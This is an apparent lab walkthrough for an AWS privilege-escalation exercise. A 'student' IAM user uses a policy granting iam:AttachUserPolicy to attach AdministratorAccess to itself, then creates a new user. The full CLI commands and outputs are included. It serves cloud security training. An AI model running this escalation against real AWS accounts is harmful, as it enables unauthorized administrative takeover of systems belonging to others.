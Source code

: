 # Overly permissive permission I

Overly Permissive Permission can be abused by a user to perform privileged operations.

Objective: Leverage the policy attached to the student user and attain administrative privileges on the AWS account.

----

1. Get access to AWS lab credentials.
2. Configure AWS CLI.
3. Check identity with:

```text
aws sts get-caller-identity
```

4. List the policies attached to the `student` user:

```text
aws iam list-attached-user-policies --user-name student
```

5. Check policy details for the Service policy:

```text
aws iam get-policy --policy-arn arn:aws:iam::862839114976:policy/Service
```

6. View policy details for the v1 version of Service policy:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam get-policy-version --policy-arn arn:aws:iam::862839114976:policy/Service --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "iam:AttachUserPolicy",
                    "Effect": "Allow",
                    "Resource": "arn:aws:iam::*:user/*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2023-05-11T09:02:39+00:00"
    }
}
```

7. Try creating a new user, named bob:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam create-user --user-name Bob

An error occurred (AccessDenied) when calling the CreateUser operation: User: arn:aws:iam::527058492733:user/student is not authorized to perform: iam:CreateUser on resource: arn:aws:iam::527058492733:user/Bob because no identity-based policy allows the iam:CreateUser action
```

FAIL.

8. Get `AdministratorAccess` policy `arn`:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam list-policies | grep 'AdministratorAccess'
            "PolicyName": "AdministratorAccess",
            "Arn": "arn:aws:iam::aws:policy/AdministratorAccess",
            "PolicyName": "AdministratorAccess-Amplify",
            "Arn": "arn:aws:iam::aws:policy/AdministratorAccess-Amplify",
            "PolicyName": "AWSAuditManagerAdministratorAccess",
            "Arn": "arn:aws:iam::aws:policy/AWSAuditManagerAdministratorAccess",
            "PolicyName": "AdministratorAccess-AWSElasticBeanstalk",
            "Arn": "arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk",
```

9. Attach administrator policy to the current user:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam attach-user-policy --user-name student --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

10. Check with:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name student
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        },
        {
            "PolicyName": "IAMReadOnlyAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/IAMReadOnlyAccess"
        },
        {
            "PolicyName": "Service",
            "PolicyArn": "arn:aws:iam::862839114976:policy/Service"
        }
    ]
}
```

11. Try creating a new user named Bob again:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam create-user --user-name Bob
{
    "User": {
        "Path": "/",
        "UserName": "Bob",
        "UserId": "AIDA4RZJYBTQHLY5KDFRX",
        "Arn": "arn:aws:iam::862839114976:user/Bob",
        "CreateDate": "2023-05-11T09:11:37+00:00"
    }
}
```

Successfully performed a privileged operation.
